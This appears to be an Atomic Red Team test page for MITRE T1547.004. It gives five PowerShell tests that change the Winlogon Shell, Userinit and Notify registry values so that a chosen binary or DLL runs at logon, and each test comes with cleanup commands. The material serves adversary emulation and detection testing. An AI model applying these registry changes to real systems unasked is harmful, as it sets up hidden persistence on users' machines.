 ```yaml
---
tags: [T1547_004, atomic_test]
filename: "[[T1547.004|T1547.004 - Boot or Logon Autostart Execution: Winlogon Helper DLL]]"
---
```

# T1547.004 - Boot or Logon Autostart Execution: Winlogon Helper DLL

## Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell
PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** bf9f9d65-ee4d-4c3e-a843-777d04f19c38





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell
PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** fb32c935-ee2e-454b-8fa3-1c46b42e8dfb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell
PowerShell code to set Winlogon Notify key to execute a notification package DLL at logon.

Upon successful execution, PowerShell will modify a registry value to execute atomicNotificationPackage.dll upon logon.

Please note that Winlogon Notifications have been removed as of Windows Vista / Windows Server 2008 and that this test thus only applies to erlier versions of Windows.

**Supported Platforms:** Windows


**auto_generated_guid:** d40da266-e073-4e5a-bb8b-2b385023e5f9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of notification package to execute | path | C:&#92;Windows&#92;Temp&#92;atomicNotificationPackage.dll|
| function_to_execute | Function in notification package to execute | string | AtomicTestFunction|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "DllName" "#{binary_to_execute}" -Type ExpandString -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Logon" "#{function_to_execute}" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Impersonate" 1 -Type DWord -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Asynchronous" 0 -Type DWord -Force
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #4 - Winlogon HKLM Shell Key Persistence - PowerShell
PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** 95a3c42f-8c88-4952-ad60-13b81d929a9d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Winlogon HKLM Userinit Key Persistence - PowerShell
PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** f9b8daff-8fa7-4e6a-a1a7-7c14675a545b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```





<br/>
